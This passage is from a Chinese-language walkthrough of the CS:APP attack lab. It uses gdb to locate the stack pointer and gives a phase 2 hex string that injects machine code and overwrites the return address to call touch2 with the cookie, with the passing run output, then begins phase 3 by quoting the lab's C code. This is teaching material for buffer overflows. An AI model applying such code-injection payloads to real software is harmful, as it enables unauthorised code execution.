 再利用 gdb 寻找 `%rsp` 的地址：

```sh 
(gdb) break *0x4017ac
Breakpoint 1 at 0x4017ac: file buf.c, line 14.
(gdb) run -q
Starting program: /home/kkkstra/code/csapp/attacklab/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:14
14	buf.c: 没有那个文件或目录.
(gdb) info registers 
...
rsp            0x5561dc78          0x5561dc78
...
```

可以得到字符串为：

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

运行结果：

```sh
$ ./hex2raw < phase2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```

### phase 3

phase 3 的要求与 phase 2 类似，但是这次需要给 `touch3` 函数以字符串的形式传递 `cookie`，先看给定的代码：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
  char cbuf[110];
  /* Make position of check string unpredictable */
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
  vlevel = 3;
  /* Part of validation protocol */
  if (hexmatch(cookie, sval)) {
    printf("Touch3!: You called touch3(\"%s\")\n", sval);
    validate(3);
  } else {
    printf("Misfire: You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
```
